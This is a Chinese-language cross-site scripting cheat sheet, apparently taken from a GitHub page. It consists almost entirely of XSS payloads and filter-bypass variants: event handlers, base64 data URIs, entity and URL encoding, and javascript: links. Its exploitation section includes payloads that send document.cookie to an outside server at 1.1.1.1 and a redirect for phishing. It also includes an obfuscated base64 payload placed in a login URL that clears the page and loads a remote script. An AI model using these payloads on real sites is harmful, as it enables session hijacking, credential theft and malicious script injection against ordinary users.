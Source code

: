 # xss注入

如果弹窗成功，说明存在xss漏洞，下面是几种常见的跨站攻击方法。

```
<script>alert(document.cookie)</script>闭合或注释之前的语句"/><script>alert(document.cookie)</script><!----><script>alert(document.cookie)</script><!--
```

 

其他写法

```
"onclick="alert(document.cookie)
</dd><script>alert(/xss/)</script>
<script>alert(/liscker/);</script>"><img%20src=1%20onerror=alert(1)><marquee/onstart="confirm`1`">< a href=javascript:alert(1)>
```

 

## **反射型XSS Poc:**

 

**alert()函数过滤：**

```
<script>alert('xss')</script> 
<script>confirm('xss')</script> 
<script>prompt('xss')</script> 
```

 

<script>标签过滤：

```
<a href="onclick=alert('xss')"> click</a>123"><a/href=//www.baidu.com/>XssTest</a>
<img src=# onerror=alert('xss')></img>
<iframe onload=alert('xss')>
```

 

**base64加密**

```
<iframe src='data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='>
```

 

**setTimeout**

```
<svg/onload=setTimeout('ale'+'rt(1)',0)>
```

 

**过滤双引号**

```
<input onfocus=alert(1) autofocus>
<select onfocus=alert(1) autofocus>
```

 

**chrome**

```
<img src ?itworksonchrome?\/onerror = alert(1)>
```

 

**data形式**

```
<object data=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg></object>
<embed src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg></embed>
<script src=data:%26comma;alert(1)></script>
```

 

**ontoggle**

```
<details open ontoggle="&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#24050;&#26159;&#40644;&#26127;&#29420;&#33258;&#24833;&#65292;&#19968;&#26525;&#32418;&#26447;&#20986;&#22681;&#26469;&#39;&#41;">
```

 

**frame**

```
<frame src="javascript:alert(1)">
<frame src="javascript:%20%0aalert%20%0d %09(1)">
<iframe srcdoc="&lt;img src&equals;x:x onerror&equals;alert&lpar;1&rpar;&gt;" />2134'></textarea><script>alert(/xss/)</script><textarea>
```

 

**url加密绕圆括号**

```
<svg/onload=alert(1)>
<svg onload='JavascRipT:alert%281%29'>
<svg/onload ="location='jav'+'ascript'+':%2'+'0aler'+'t%20%2'+'81%'+'29'">
```

 

 **XSS漏洞利用方式：**



```
<script>window.location="http://www.baidu.com"</script>   重定向钓鱼
<script>window.location="http://1.1.1.1/cookie.php?cookie="+document.cookie;</script>  接受客户端cookie
<script>new Image().src="http://1.1.1.1/c.php?output="+document.cookie; </script> http://login.xxx.com/sso/m/mobile-login.do?next_page=http://m.xxx.com&f=coursek12xss",}});setTimeout(atob('ZG9jdW1lbnQuYm9keS5pbm5lckhUTUwgPSAnJztkb2N1bWVudC5oZWFkLmFwcGVuZENoaWxkKGRvY3VtZW50LmNyZWF0ZUVsZW1lbnQoJ3NjcmlwdCcpKS5zcmM9Jy8vZHQzMDEuY29tLzAuanMnOw=='),0);({validate: {//
```



 

###  XSS变种

XSS变种的类型在于JavaScript能执行的位置有多少。

　　1）confirm() 方法用于显示一个带有指定消息和 OK 及取消按钮的对话框。

```
"/><ScRiPt>confirm(9174)</ScRiPt>
```

　　2）跳转链接

```
<a/href=//www.baidu.com/>XssTest</a>
<a href="javascript:alert(1)">x</a>
```

 　　3）img类型的xss

```
<img src='#' onerror='alert("XSS")' >
<img src='' onerror=alert(/poc/)>
```

　　4）对于过滤<>

```
%27;alert%28/aa/%29;a=%27
```

 　　5）邮箱系统，存储型

```
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
```

 　　6）inframe框架执行JS

```
<iframe src="javascript:alert(1)"></iframe>
```